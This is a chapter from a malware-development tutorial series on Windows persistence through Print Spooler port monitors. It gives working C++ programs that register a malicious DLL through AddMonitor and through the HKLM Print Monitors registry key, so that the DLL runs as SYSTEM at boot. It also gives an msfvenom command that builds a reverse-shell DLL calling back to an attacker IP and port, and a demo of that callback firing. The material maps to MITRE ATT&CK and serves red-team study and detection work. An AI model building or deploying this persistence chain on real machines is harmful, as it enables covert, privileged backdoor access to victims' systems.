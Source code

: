 \newpage
\subsection{74. malware development: persistence - part 8. Port monitors. Simple C++ example.}

![pers](./images/59/2022-06-20_19-35.png){width="80%"}    

This post is the result of self-researching one of the interesting malware persistence trick: Port monitors.    

### port monitors

Port Monitor refers to the Windows Print Spooler Service or `spoolv.exe` in this post. When adding a printer port monitor, a user (or an attacker) is able to add an arbitrary dll that serves as the *"monitor"*.    

There are essentially two ways to add a port monitor, also known as your malicious DLL: through the Registry for persistence or a custom Windows application (`AddMonitor` function) for immediate dll execution.    

### adding monitor

Using the Win32 API, specifically the `AddMonitor` function of the Print Spooler API:

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

it is possible to add an arbitrary monitor DLL immediately while the system is running. Note that you will need local administrator privileges to add the monitor.    

For example, source code of our monitor:    

```cpp
/*
monitor.cpp
windows persistence via port monitors
register the monitor port
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}

```

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwinspool
```

![pers](./images/59/2022-06-20_08-17.png){width="80%"}    

Also, create our "evil" DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

![pers](./images/59/2022-06-20_19-24.png){width="80%"}    

So, compiling the code will produce an executable (`monitor.exe` in my case) that will register the malicious DLL (`evil2.dll`) on the system.    

### demo for add "monitor"

Copy files and run:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

![pers](./images/59/2022-06-20_19-28.png){width="80%"}    

### registry persistence

A list of sub-key port monitors can be found within the        
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors`       
node. 
Each key should have a `REG_SZ` entry containing a `Drivers` DLL. At system startup, each of these DLLs will be executed as `SYSTEM`.    

First of all, before malicious actions, check sub keys:

```powershell
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors" \
/s
```

![pers](./images/59/2022-06-20_15-48.png){width="80%"}    

Then, add sub key `Meow` and `Driver` value:    

```powershell
reg add \
"HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow"
 /v "Driver" /d "evil2.dll" /t REG_SZ
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors"
 /s
```

![pers](./images/59/2022-06-20_18-17.png){width="80%"}    

As you can see, everything is completed correctly. Then restart victim's machine:    

![pers](./images/59/2022-06-20_18-17_1.png){width="80%"}    

![pers](./images/59/2022-06-20_18-17_2.png){width="80%"}    

And after a few minutes:    

![pers](./images/59/2022-06-20_19-30.png){width="80%"}    

![pers](./images/59/2022-06-20_19-31.png){width="80%"}    

Let's go to check `Network` tab in Process Hacker 2:    

![pers](./images/59/2022-06-20_19-34.png){width="80%"}    

We can see that the `evil2.dll` is being accessed by the `spoolsv.exe (PID: 4616)`, which eventually spawns a `rundll32` with our payload, that initiates a connection back to the attacker:     

![pers](./images/59/2022-06-20_19-33.png){width="80%"}    

For cleanup, after end of experiments, run:

```powershell
Remove-ItemProperty -Path \
"HKLM:\System\CurrentControlSet\Control\Print\Monitors\
Meow" -Name "Driver"
```

![pers](./images/59/2022-06-20_21-22.png){width="80%"}    

My "dirty PoC" for registry persistence:    

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, 
    (unsigned char*)evilDll, strlen(evilDll));
    RegCloseKey(hkey);
  } else {
    printf("failed to create new registry subkey :(");
    return -1;
  }
    return 0;
}
```

During Defcon 22, Brady Bloxham [demonstrated](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf) this persistence technique. This method requires Administrator privileges and the DLL must be saved to disk.   
The question remains whether any APTs uses this technique in the wild.

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[source code on Github](https://github.com/cocomelonc/2022-06-19-malware-pers-8)   
